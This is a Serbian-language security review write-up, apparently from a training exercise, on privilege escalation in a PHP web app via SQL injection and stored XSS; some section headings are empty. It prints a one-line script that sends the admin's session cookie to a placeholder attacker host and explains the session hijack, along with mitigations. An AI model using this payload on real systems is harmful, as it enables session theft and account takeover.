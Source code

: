 # Bezbednosni pregled koda i analiza

## Zaobilaženje mehanizma autentikacije

## Eskalacija privilegija do administratorskog nivoa

Analizom koda za autorizaciju, primećeno je da se proverava samo da li je username korisnika admin. Budući da nema provere dupliranih username, uspešno smo kreirali nalog napadača pomoću SQL injekcije. Zbog diversifikacije, za metod eskalacije privilegija je ipak izabran XSS u vidu skripte koja bi se učitala samo u podacima koje vidi administrator - u tabeli korisnika. Svi korisnici mogu da ažuriraju opis svog profila pri čemu ne postoji validacija unosa. Kasnije se ti podaci koriste na nesiguran način prilikom učitavanja tabele pri čemu dolazi do **persisted XSS** ranjivosti.

```html
<script>fetch(`http://{attacker_host}:{port}/${{document.cookie}}`);</script>
```

*Exploit* sadrži jedan zahtev ka adresi napadača u kom se šalju *Cookies* koji sadrže **PHPSESSID** admina. Potom se ovaj *session id* koristi u novoj sesiji sa administratorskim pravima. Ranjivost je mogla da bude sprečena zaštitom od XSS (validacija unosa i bezbedno rukovanje ispisom vrednosti) ili sigurnom konfiguracijom *Cookies* sa ograničenjima za slanje samo preko *https* i zabranom pristupa polju *cookie* iz *JavaScript-a*.

## Izvršenje proizvoljnog koda na serveru

